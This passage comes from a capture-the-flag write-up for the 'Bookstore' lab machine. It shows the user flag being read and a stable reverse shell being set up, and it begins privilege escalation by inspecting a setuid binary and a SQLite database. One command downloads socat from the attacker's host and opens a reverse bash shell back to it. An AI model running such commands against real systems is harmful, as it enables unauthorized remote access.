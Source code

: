 I'm user `sid`!

**user.txt:**
```
sid@bookstore:~$ cat /home/sid/user.txt
{Redacted}
```

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

sid@bookstore:~$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/10/22 03:28:20 socat[38546] N opening character device "/dev/pts/2" for reading and writing
2022/10/22 03:28:20 socat[38546] N listening on AF=2 0.0.0.0:4444
                                                                 2022/10/22 03:28:34 socat[38546] N accepting connection from AF=2 10.10.116.175:42772 on AF=2 10.9.0.253:4444
                                                                   2022/10/22 03:28:34 socat[38546] N starting data transfer loop with FDs [5,5] and [7,7]
                                               sid@bookstore:~$ 
sid@bookstore:~$ stty rows 22 columns 107
sid@bookstore:~$ export TERM=xterm-256color
sid@bookstore:~$ ^C
sid@bookstore:~$ 
```

## Privilege Escalation

### sid to root

**In user `sid` home directory, we have something interesting:**
```
sid@bookstore:~$ ls -lah
[...]
-rw-rw-r-- 1 sid  sid   16K Oct 19  2020 books.db
[...]
-rwsrwsr-x 1 root sid  8.3K Oct 20  2020 try-harder
[...]
```

**Let's look at the `books.db` first!**
```
sid@bookstore:~$ file books.db 
books.db: SQLite 3.x database, last written using SQLite version 3033000
```

**We can open it via `sqlite3`!**
```
sid@bookstore:~$ sqlite3 books.db 

Command 'sqlite3' not found, but can be installed with:

apt install sqlite3
Please ask your administrator.
```
